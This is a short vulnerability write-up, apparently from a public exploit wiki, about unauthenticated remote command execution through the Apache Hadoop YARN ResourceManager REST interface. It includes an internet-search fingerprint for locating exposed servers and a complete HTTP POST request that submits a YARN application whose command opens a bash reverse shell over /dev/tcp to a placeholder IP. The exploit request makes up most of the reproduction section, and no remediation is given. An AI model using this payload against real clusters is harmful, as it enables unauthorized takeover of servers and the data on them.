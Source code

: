# Apache Hadoop Yarn RPC remote command execution vulnerability

## Vulnerability Description

Hadoop Yarn RPC unauthorized access vulnerability exists in the ResourceManager in Hadoop Yarn, which is responsible for resource management and task scheduling. The cause is that the RPC service provided by this component to users can be accessed without authentication by default.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Hadoop </span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="APACHE-hadoop-YARN"</span>

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657361631852-75dabea7-851c-4155-973d-79ebcfbf1fd0.png)

Verify the request package

```php
POST /ws/v1/cluster/apps HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 215
Content-Type: application/json

{"application-id": "application_1655112607010_0005", "application-name": "get-shell", "am-container-spec": {"commands": {"command": "/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9998 0>&1"}}, "application-type": "YARN"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657361905195-15771262-fd2e-4c75-ba06-82b1d0ce7aad.png)